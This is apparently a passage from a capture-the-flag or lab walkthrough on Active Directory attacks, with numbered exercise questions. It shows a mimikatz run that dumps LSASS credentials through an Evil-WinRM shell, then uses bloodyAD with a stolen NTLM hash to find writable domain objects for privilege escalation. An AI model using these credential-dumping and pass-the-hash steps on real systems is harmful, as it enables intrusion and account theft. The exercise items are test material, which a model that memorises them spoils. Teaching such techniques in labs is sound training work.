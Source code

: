 Dumping LSASS is by far the most common TTP (Tactics, Techniques, and Procedures) used to obtain credentials from a machine. This is because LSASS stores the credentials of all users that have logged into the machine, including domain users.

Due to the nature of credential caching, if an interactive logon occurs on a machine, the credentials are stored in LSASS until the next reboot. This usually means that LSASS will almost always contain sensitive credentials.

```
*Evil-WinRM* PS C:\windows\tasks> .\mimikatz.exe "token::elevate" "sekurlsa::logonpasswords" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

720     {0;000003e7} 1 D 33311          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;3feaf4af} 0 D 1072418470  async\Tyler_ROSE        S-1-5-21-2085372437-1578838935-3393986013-1372  (11g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 1072526991  NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 43039108 (00000000:0290b984)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 4/29/2025 12:31:38 AM
SID               : S-1-5-90-0-2

...
```

**Q18**: What is the NTLM hash of the `Austin_BROOKS` user?

## Exercise 5: Privilege Escalation

With the credentials of `Austin_BROOKS`, we can now enumerate the domain for access controls that they have.

```
bloodyAD --host 'dc.async.local' -u 'Austin_BROOKS' -p ':3a7b6510f7ba73bf0171dd258a01234d' get writable

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=async,DC=local
permission: WRITE

distinguishedName: CN=Austin_BROOKS,CN=Users,DC=async,DC=local
permission: WRITE

[..snip..]
```


[fs.async.local]: PS C:\Users\Tyler_ROSE\Documents> whoami